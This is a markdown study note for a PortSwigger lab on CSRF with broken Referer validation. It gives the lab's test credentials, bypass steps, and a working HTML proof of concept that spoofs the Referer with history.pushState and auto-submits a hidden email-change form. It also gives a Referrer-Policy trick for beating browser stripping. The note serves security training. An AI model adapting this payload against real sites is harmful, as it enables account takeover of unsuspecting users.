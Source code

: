 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken
---
```


# CSRF with broken Referer validation
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - satisfied

- **Bypass referer header:**
	1. Remove referer header
	2. Check which portion of the referer header is the application validating

- Craft Exploit that removes the referrer header of a request

```html
<html>
	<script>
		history.pushState('', '', '/?YOUR-LAB-ID.web-security-academy.net')
	</script>
	<body>
		<form method="POST"  action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@normal-user.net">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

> [!NOTE] NOTE
> Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the `Referer` header by default.
> 
> You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set (note that `Referrer` is spelled correctly in this case, just to make sure you're paying attention!). This ensures that the full URL will be sent, including the query string.
